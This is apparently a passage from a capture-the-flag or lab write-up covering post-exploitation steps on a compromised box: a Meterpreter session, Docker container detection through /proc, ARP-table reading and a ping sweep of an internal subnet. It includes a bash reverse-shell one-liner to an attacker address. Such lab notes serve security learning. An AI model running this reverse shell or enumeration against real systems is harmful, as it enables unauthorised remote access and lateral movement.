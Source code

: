 ```bash
nohup ./met
[Ctrl + c]
# Restart secondardy shell from the initial
bash -c 'bash -i >& /dev/tcp/10.10.14.132/8002 0>&1' &
# Meterpreter
meterpreter > shell

```

Previous days LinEnum finds Docker
![docker](weareindocker.png)

```bash
ls -la /
cat /proc/1/cgroup
# What does the network interfaces mean for routing and connectivity?
ip a
# How is the container connecting with other IPv4 addresses?
cat /proc/net/arp

```

0xDF's network enumeration got me interested in /proc and /proc/net specifically
```bash
# ARP table is useful as even in the cloud Ipv4 is still prodominant
# ARP is used to resolve IPv4 addresses, therefore addresses here are addresses that communicated to box
cat /proc/net/arp
```

I only got the .18.0.1 - given that it is a very low address and we are not in the cloud where we assume the IaaS, PaaS, etc take many of the lower addresses and obvious not the final .255 address of the subnet - we can understand 0xDF assumption that it is a gateway address i.e an address to map out another set of address in a subnet or (V)network.
![](nodot19.png)

[/Proc.txt kernel documentation](https://www.kernel.org/doc/Documentation/filesystems/proc.txt)
[Linux Kernel Networking](https://www.kernel.org/doc/Documentation/networking/)
[/proc/net/tcp](https://www.kernel.org/doc/Documentation/networking/tcp.txt) - [tcp.cong.c](https://github.com/torvalds/linux/blob/master/net/ipv4/tcp_cong.c) congestion control algorhythms on a single queue, with flagging to indicate a frame state on the queue:
- search the queue
- locking to prevent accidental use
- state management: thresholds and identification management
- module management: cleanup, default or other configuration setting  for congestion control
- congestion handling between socket and kernel
- reinitialisation and initialation everything above but kernel and sockets

Or you could manually checked the root directory for dot files and observed the `.dockerenv`, the above check for Docker contain is in the `/proc/1/cgroup`.
![](alwayslslainroot.png)

Although it is not mentioned a good thing to then check with Docker would be IP address as it is may have its own routing configuration to the host box.
![docker](dockerips.png)
Ping sweeping appears in both RedTeamFieldManual and Netmux operator handbook.
```bash
for ip in $(seq 1 5); do
	ping -c 1 172.18.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"
done
```
